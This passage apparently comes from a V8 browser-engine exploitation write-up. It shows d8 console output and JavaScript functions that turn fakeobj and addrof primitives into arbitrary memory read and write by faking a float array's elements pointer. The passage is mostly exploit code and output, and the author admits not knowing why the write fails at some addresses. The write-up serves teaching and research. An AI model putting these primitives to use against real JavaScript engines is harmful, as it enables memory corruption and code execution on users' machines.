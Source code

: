 ```
the elements pointer.

d8> var fake = fakeobj(addrof(crafted_arr)-0x20n);
undefined
d8> crafted_arr[2] = itof(BigInt(0x7be69511d38)-0x10n+1n);
4.206668633923e-311
d8> "0x"+ftoi(fake[0]).toString(16);
0x16d74fa414f9

As seen, we have successfully read the value at our arbitrary address of 0x7be69511d38
```

This is how we can use our `fakeobj` primitive to get an arbitrary read. In the same way, we can get an arbitrary write, however this won't exactly work out of the box, so lets call the arbitrary write function `initial_arb_write` instead:
```javascript
// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
	addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Index 0 will then return the value at read_addr
    return ftoi(fake[0]);
}

function initial_arb_write(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}
```

So why wouldn't the arbitrary write work? I don't exactly know why, but it just doesn't work with some certain addresses (if someone could explain to me why this is the case, I'd be grateful. Please DM me on twitter).
